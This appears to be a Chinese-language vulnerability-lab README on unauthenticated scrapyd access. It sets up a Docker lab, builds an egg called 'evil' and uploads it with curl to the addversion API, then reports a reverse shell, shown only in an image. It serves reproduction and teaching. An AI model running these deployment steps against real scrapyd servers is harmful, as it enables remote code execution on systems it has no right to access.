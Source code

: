 # scrapyd 未授权访问漏洞

scrapyd是爬虫框架scrapy提供的云服务，用户可以部署自己的scrapy包到云服务，默认监听在6800端口。如果攻击者能访问该端口，将可以部署恶意代码到服务器，进而获取服务器权限。

参考链接：<https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## 环境搭建

执行如下命令启动scrapyd服务：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:6800`即可看到Web界面。

## 漏洞复现

参考[攻击Scrapyd爬虫](https://www.leavesongs.com/PENETRATION/attack-scrapy.html)，构造一个恶意的scrapy包：

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# 编辑 evil/__init__.py, 加入恶意代码
scrapyd-deploy --build-egg=evil.egg
```

向API接口发送恶意包：

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

成功反弹shell：

![](1.png)
